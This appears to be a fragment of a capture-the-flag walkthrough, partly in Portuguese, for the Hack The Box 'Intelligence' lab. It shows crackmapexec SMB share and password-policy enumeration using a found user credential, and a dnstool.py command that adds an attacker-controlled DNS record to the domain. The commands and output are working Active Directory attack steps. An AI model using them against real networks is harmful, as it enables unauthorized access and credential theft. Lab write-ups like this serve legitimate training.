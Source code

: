     `crackmapexec smb 10.129.95.154 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares --pass-pol`
    
    ```
    └──╼ [★]$ crackmapexec smb 10.129.95.154 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares --pass-pol
    SMB         10.129.95.154   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
    SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
    SMB         10.129.95.154   445    DC               [+] Enumerated shares
    SMB         10.129.95.154   445    DC               Share           Permissions     Remark
    SMB         10.129.95.154   445    DC               -----           -----------     ------
    SMB         10.129.95.154   445    DC               ADMIN$                          Remote Admin
    SMB         10.129.95.154   445    DC               C$                              Default share
    SMB         10.129.95.154   445    DC               IPC$            READ            Remote IPC
    SMB         10.129.95.154   445    DC               IT              READ            
    SMB         10.129.95.154   445    DC               NETLOGON        READ            Logon server share 
    SMB         10.129.95.154   445    DC               SYSVOL          READ            Logon server share 
    SMB         10.129.95.154   445    DC               Users           READ            
    SMB         10.129.95.154   445    DC               [+] Dumping password info for domain: intelligence
    SMB         10.129.95.154   445    DC               Minimum password length: 7
    SMB         10.129.95.154   445    DC               Password history length: None
    SMB         10.129.95.154   445    DC               Maximum password age: Not Set
    SMB         10.129.95.154   445    DC               
    SMB         10.129.95.154   445    DC               Password Complexity Flags: 000000
    SMB         10.129.95.154   445    DC               	Domain Refuse Password Change: 0
    SMB         10.129.95.154   445    DC               	Domain Password Store Cleartext: 0
    SMB         10.129.95.154   445    DC               	Domain Password Lockout Admins: 0
    SMB         10.129.95.154   445    DC               	Domain Password No Clear Change: 0
    SMB         10.129.95.154   445    DC               	Domain Password No Anon Change: 0
    SMB         10.129.95.154   445    DC               	Domain Password Complex: 0
    SMB         10.129.95.154   445    DC               
    SMB         10.129.95.154   445    DC               Minimum password age: None
    SMB         10.129.95.154   445    DC               Reset Account Lockout Counter: None
    SMB         10.129.95.154   445    DC               Locked Account Duration: None
    SMB         10.129.95.154   445    DC               Account Lockout Threshold: None
    SMB         10.129.95.154   445    DC               Forced Log off Time: Not Set
    ```
    
    Adicionar uma conta, a partir de uma existente 
    
    **`python3 dnstool.py -u 'intelligence\tiffany.molina' -p NewIntelligenceCorpUser9876  -r webipp.intelligence.htb -a add -t A -d 10.10.14.89 10.129.95.154`**
    
    ```
    **python3 dnstool.py -u 'intelligence\tiffany.molina' -p NewIntelligenceCorpUser9876  -r webipp.intelligence.htb -a add -t A -d 10.10.14.89 10.129.95.154
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully**
    ```
    